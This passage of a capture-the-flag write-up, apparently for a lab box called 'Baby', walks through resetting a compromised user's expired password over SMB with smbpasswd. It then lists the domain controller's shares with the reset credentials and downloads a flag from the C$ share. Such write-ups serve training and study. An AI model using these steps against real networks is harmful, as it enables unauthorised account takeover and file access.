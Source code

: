 Since there was a **STATUS_PASSWORD_MUST_CHANGE** error during previous attempts, logging in with the compromised password directly was not possible. Attempts to log in via **RDP** also failed. 
To bypass the password expiration issue, I used the **smbpasswd** tool, which is available on Kali Linux, to reset the password for **Caroline Robinson**.
## Resetting an Expired Password Remotely

```
smbpasswd -r 10.10.75.4 -U "Caroline.Robinson"
Old SMB password:
New SMB password:
Retype new SMB password:
Password changed for user Caroline.Robinson
```

After a break, I resumed enumeration on a new machine with the IP **10.10.88.2**.

### Listing SMB Shares
Using the newly reset credentials, I attempted to list available **SMB** shares on the domain controller.
```
smbclient -U 'Caroline.Robinson%Password123' -L //10.10.88.2/Admin$

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.10.88.2 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
## Attempting to Connect to Shares
The available shares are **ADMIN$**, **C$**, **IPC$**, **NETLOGON**, and **SYSVOL**. Unfortunately, I could not connect to **ADMIN$** due to an error.
```
smbclient -U 'Caroline.Robinson' \\\\10.10.88.2\\ADMIN$ 
Password for [WORKGROUP\Caroline.Robinson]:
session setup failed: NT_STATUS_LOGON_FAILURE
```
Able to connect to C$ 
![alt text]({{ '/assets/img/Baby/image.png' | relative_url }})

### Fetching the flag-1
After gaining access to the **C$** share, I navigated to the **user's Desktop folder** to look for any files of interest. Inside **Caroline Robinson's Desktop** folder, I found a file named **user.txt** which contained the flag.
```
smb: \users\Caroline.Robinson\Desktop\> get user.txt
getting file \users\Caroline.Robinson\Desktop\user.txt of size 36 as user.txt (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
```
